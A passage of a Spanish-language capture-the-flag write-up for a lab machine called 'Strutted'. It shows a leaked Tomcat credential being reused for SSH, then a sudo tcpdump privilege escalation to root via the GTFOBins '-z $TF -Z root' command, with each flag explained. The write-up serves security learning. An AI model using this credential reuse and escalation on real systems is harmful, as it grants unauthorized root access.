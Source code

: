 ```xml
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
<!--
  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
</tomcat-users>

```

Nos sale una contrasena; probamos ssh con James
![[Pasted image 20250219203634.png]]

## James
Podemos usar sudo con el usuario james en tcpdump:
```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
james@strutted:~$ 

```

Miramos en [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/)
![[Pasted image 20250219203905.png]]

Root!
![[Pasted image 20250219203857.png]]
### Explicacion del comando

**`sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root`**: 
- `-l`: Habilita la salida en vivo (muestra los paquetes a medida que se capturan).
- `-n`: No resuelve direcciones de red a nombres, solo muestra direcciones IP numéricas.
- `-i lo`: Escucha en la interfaz de loopback (lo), que es la interfaz de red interna del sistema.
- `-w /dev/null`: No guarda los paquetes capturados en un archivo, sino que los descarta (`/dev/null`).
- `-W 1`: Limita a una única captura de archivo, ya que el siguiente argumento de `-G` establece un intervalo de tiempo.
- `-G 1`: Cambia el archivo de captura cada 1 segundo (aunque no se guardan archivos porque se usa `/dev/null`).
- `-z $TF`: Ejecuta el archivo `$TF` después de cada archivo de captura. Este es el punto clave. El archivo temporal `$TF` es ejecutado, y dado que contiene el comando `cat /root/root.txt`, este comando se ejecutará después de cada captura.
- `-Z root`: Cambia el usuario que ejecuta `tcpdump` a `root`, lo que otorga privilegios elevados a `tcpdump` y al script `$TF` 